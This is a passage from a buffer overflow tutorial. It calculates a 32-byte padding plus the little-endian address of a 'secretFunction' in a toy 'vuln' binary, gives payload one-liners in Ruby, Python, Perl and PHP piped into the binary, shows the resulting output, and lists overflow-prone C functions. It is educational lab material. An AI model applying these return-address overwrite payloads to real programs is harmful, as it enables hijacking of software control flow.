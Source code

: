 > ### Designing payload:

Now we know that 28 bytes are reserved for `buffer`, it is right next to `%ebp`(the Base pointer of the `main` function). Hence the next 4 bytes will store that `%ebp` and the next 4 bytes will store the return address(the address that `%eip` is going to jump to after it completes the function). Now it is pretty obvious how our payload would look like. The first 28+4=32 bytes would be any random characters and the next 4 bytes will be the address of the `secretFunction`.

*Note: Registers are 4 bytes or 32 bits as the binary is compiled for a 32 bit system.*

The address of the `secretFunction` is `0804849d` in hex. Now depending on whether our machine is little-endian or big-endian we need to decide the proper format of the address to be put. For a little-endian machine we need to put the bytes in the reverse order. i.e. `9d 84 04 08`. The following scripts generate such payloads on the terminal. Use whichever language you prefer to:

```
ruby -e 'print "a"*32 + "\x9d\x84\x04\x08"'

python -c 'print "a"*32 + "\x9d\x84\x04\x08"'

perl -e 'print "a"x32 . "\x9d\x84\x04\x08"'

php -r 'echo str_repeat("a",32) . "\x9d\x84\x04\x08";'
```

*Note: we print \\x9d because 9d was in hex*

You can pipe this payload directly into the `vuln` binary.

```
ruby -e 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln

python -c 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln

perl -e 'print "a"x32 . "\x9d\x84\x04\x08"' | ./vuln

php -r 'echo str_repeat("a",32) . "\x9d\x84\x04\x08";' | ./vuln
```

This is the output that I get:

```
Enter some text:
You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<rubbish 3 bytes>
Congratulations!
You have entered in the secret function!
Illegal instruction (core dumped)
```

Cool! we were able to overflow the buffer and modify the return address. The `secretFunction` got called. But this did foul up the stack as the program expected `secretFunction` to be present.

> ### What all C functions are vulnerable to Buffer Overflow Exploit?

1.  gets
2.  scanf
3.  sprintf
4.  strcpy
